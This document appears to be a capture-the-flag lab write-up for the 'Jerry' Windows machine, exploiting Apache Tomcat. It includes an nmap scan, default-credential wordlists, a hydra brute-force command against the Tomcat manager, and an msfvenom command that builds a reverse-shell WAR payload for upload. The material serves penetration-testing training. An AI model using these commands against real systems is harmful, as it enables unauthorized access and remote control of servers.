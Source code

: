 # About Jerry
Jerry is an easy-difficulty Windows machine that showcases how to exploit Apache Tomcat, leading to an `NT Authority\SYSTEM` shell, thus fully compromising the target. 

## Enumeration
`10.129.123.27`
### Nmap Scan
`nmap -A -T4 -p- 10.129.123.27`
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2008|7 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (97%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

### Apache
![](Images/Pasted%20image%2020250416212630.png)
Nothing stood out in searchsploit results, but the manager login came up in my google searches, but I did find a generic HTTP login page along with a quick google search gave me lists of default users/passwords for apache tomcat.
## Exploit
Next I will have to do some basic html brute forcing at http://$IP:8080/manager/html
First I will make a user and pass file with common credentials or defaults for apache tomcat.
user
```
admin
both
manager
role
role1
root
tomcat
```
pass
```
password
admin
changethis
manager
password
password1
Password1
r00t
role1
root
s3cret
tomcat
toor
```
This is why we should never use default credentials!
`hydra -L user.txt -P pass.txt -s 8080 -f 10.129.123.27 http-get /manager/html`
![](Images/Pasted%20image%2020250416213356.png)
Even with credentials it didn't appear to let me in?
![](Images/Pasted%20image%2020250416213702.png)
Turns out admin:admin was not correct but the webpage did show me the real credentials that were indeed default creds.
![](Images/Pasted%20image%2020250416213933.png)
![](Images/Pasted%20image%2020250416213955.png)
I noticed the file upload as a potential exploitation point and a quick google search confirmed my suspicions as I found a metasploit module for it.
https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/

### "manual"
Generate Payload
`msfvenom -p java/shell_reverse_tcp LHOST=IP LPORT=4444 -f war -o shell.war`
Upload Shell
![](Images/Pasted%20image%2020250416214630.png)
Start Listener and call upon it by navigating to IP:8080/shell
![](Images/Pasted%20image%2020250416214702.png)
### Metasploit
Configure and run
![](Images/Pasted%20image%2020250416214857.png)

## Flags
![](Images/Pasted%20image%2020250416215349.png)